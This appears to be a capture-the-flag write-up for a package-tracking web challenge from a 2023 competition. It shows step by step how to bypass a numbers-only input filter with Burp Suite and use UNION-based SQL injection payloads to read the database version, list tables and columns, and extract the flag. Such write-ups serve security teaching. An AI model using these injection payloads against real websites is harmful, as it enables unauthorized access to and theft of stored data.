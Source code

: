 The system displayed the tracking website that has the illegal package's tracking number

![image](https://github.com/aminnazri00/AturKreatif-2023/assets/86725014/8d9231bf-6516-46e1-8425-60d4058326ef)

1. Can track normal traking number by entering 100920001 or 100920002 or 100920003. It will display the normal package status and other details.
2. Insert any one of the SQL syntax in the box such as ' OR 1 -- - or others but the website will filter because only accept numbers only.
3. Open burp suite and intercept the search box in the website.

![image](https://github.com/aminnazri00/AturKreatif-2023/assets/86725014/d9441653-048b-4543-a6c3-4f1a813dae6a)

5. Enter the id with SQL syntax below
    
```
-1' UNION SELECT null,null,null,null,null,null-- 
```

6. It will show result with no data.
7. Insert @@version on one of the null will give the current version of the database.

```
-1' UNION SELECT null,null,null,null,null,@@version-- 
```

8. After get the version and what type of the database, we can figure out how their syntax to enter. Find out how to list all the databases and enter next command:

```
-1' UNION SELECT null,null,null,null,null,TABLE_NAME FROM information_schema.tables-- 
```

9. It will list out all tables that available and found w0wg00d that look suspicious.
10. After that need to list out all the columns that available by entering the command below:

```
-1' UNION SELECT null,null,null,null,null,COLUMN_NAME FROM information_schema.columns-- 
```

11. From both information we get, we can retrieve all data from other table by entering command below and found the flag

```
-1' UNION SELECT null,null,null,null,null,f0undM3 FROM w0wg00d-- 
```
